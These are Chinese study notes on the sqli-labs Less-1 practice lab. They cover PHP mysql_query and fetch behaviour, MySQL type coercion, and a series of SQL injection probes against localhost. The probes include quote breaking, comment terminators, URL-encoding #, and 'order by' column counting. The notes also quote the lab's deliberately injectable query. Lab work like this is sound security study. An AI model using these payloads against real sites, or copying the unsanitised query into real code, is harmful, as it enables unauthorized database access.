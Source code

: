 http://127.0.0.1/sqli-labs-master/Less-1/?id=4
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
//仅单层解析，就是只会把$id替换掉，但不会把$id的值再解析一次
例如id = "$aa",上面那句sql不会知道aa的值是多少的
【
$result=mysql_query($sql);//resource(7) of type (mysql result)
mysql_query() 仅对 SELECT，SHOW，EXPLAIN 或 DESCRIBE 语句返回一个资源标识符，如果查询执行不正确则返回 FALSE。
对于其它类型的 SQL 语句，mysql_query() 在执行成功时返回 TRUE，出错时返回 FALSE
对其进行$row = mysql_fetch_array($result);或者mysql_fetch_row()才能得到资源中的数据
$row = mysql_fetch_row() 从结果集中取得一行数据并作为数组返回。
每个结果的列储存在一个数组的单元中，偏移量从 0 开始。
$row[0];$row[1];
【依次调用】 mysql_fetch_row() 将返回结果子集中的下一行（因为limit a,b会返回b-a行），如果没有更多行则返回 FALSE。
mysql_fetch_array() 是 mysql_fetch_row() 的扩展版本。除了将数据以数字索引方式储存在数组中之外，还可以将数据作为关联索引储存，用字段名作为键名。
mysql> select * from users;
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  1 | Dumb     | Dumb       |
|  2 | Angelina | I-kill-you |
mysql_fetch_row()
Array
(
    [0] => 1
    [1] => Dumb
    [2] => Dumb
)
mysql_fetch_array()
Array
(
    [0] => 1
    [id] => 1
    [1] => Dumb
    [username] => Dumb
    [2] => Dumb
    [password] => Dumb
)
【
select .... limit a,b
查询结果集中取子集[a,b)
【
mysql有自动转换str的坑
比如，
mysql> select * from users;
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  1 | Dumb     | Dumb       |
|  2 | Angelina | I-kill-you |
select * from users where id = '2dm';//这条语句仍然能把id=2的找到
select * from users where id = 2dm;//这条语句就不能了
【
http://127.0.0.1/sqli-labs-master/Less-1/?id=2%27
SELECT * FROM users WHERE id='2'' LIMIT 0,1
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''2'' LIMIT 0,1' at line 1
//这就是单引号没闭合，语法报错
【
$id=$_GET['id'];//$id=$_GET['ID'];二者不同，要区分大小写
【
三种注释写法
#DELETE FROM SeatInformation  
/*DELETE FROM SeatInformation */
-- DELETE FROM SeatInformation
【
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' and 1=1
没闭合报错
【
http://127.0.0.1/sqli-labs-master/Less-1/?id=1'-- and 1=2
成功，因为-- 会注释掉后面的东西
【
http://127.0.0.1/sqli-labs-master/Less-1/?id=1'--+and 1=2
http://127.0.0.1/sqli-labs-master/Less-1/?id=1'--'and 1=2
也成功，为啥--后面没有空格也成功了？
【
浏览器自动url_encode
'%27
 %20
需要手动encode传递
#%23
无encode的有-01ab=?/+
【
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' #
失败，浏览器中#是锚点，加载完后跳转到某锚点，所以这里应该把#手动url_encode
【
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' %23 1=2
成功，把#手动url_encode
【
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' order by 4 %23
报错，order by 4是指把查询结果按第四列排序，可知一共3列

